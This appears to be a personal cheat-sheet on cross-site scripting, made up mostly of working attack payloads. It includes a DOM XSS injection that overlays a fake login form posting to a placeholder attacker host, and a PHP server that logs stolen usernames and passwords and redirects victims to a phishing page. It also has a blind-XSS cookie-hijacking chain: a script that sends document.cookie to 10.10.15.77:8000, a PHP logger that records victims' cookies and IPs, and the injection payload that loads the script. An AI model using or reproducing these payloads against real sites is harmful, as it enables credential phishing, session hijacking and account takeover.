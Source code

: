 automation:
https://github.com/mandatoryprogrammer/xsshunter-express

give it a try for stored xss:
* evil svg
* pdf for xss
* `<img src=x onerror=alert(1) />`

typical payload:
blinkd: ip, cookie, url

DOM xss payload:

```html
<img src="" onerror=alert(window.origin)>
```

example payload of login form for DOM XSS:

```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

server:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.10.15.77/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

#### Blind XSS

Common places:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

Example of hijacking cookies:

server:

php -S 0.0.0.0:8000
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


script.js
```

new Image().src='http://10.10.15.77:8000/index.php?c='+document.cookie;

```


payload:

```
"><script src=http://10.10.15.77:8000/script.js></script>
```
